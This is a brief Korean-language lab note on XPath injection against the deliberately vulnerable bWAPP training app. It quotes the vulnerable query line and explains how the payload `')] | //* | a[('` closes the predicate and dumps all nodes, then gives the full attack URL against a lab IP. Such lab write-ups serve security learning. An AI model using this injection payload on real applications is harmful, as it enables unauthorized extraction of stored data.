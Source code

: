 * `$result = $xml->xpath("//hero[contains(genre, '$genre')]/movie");`에서 정보를 가져옴
* 파이프라인(`|`)을 이용하여 인젝션을 시도할 것
* `$genre`를 지우고 `| //* | a[('')]`를 삽입
* `$result = $xml->xpath("//hero[contains(genre, '')] | //* | a[('')]/movie");`
* `')] | //* | a[('`를 삽입한 것
* `//*`: 현재 디렉토리의 모든 노드 조회
* URL에 다음과 같이 입력: `http://192.168.190.143/bWAPP/xmli_2.php?genre=')] | //* | a[('&action=search`

![image](https://user-images.githubusercontent.com/28076542/52266369-95a65b80-2979-11e9-84e0-5a72bd072ac8.png)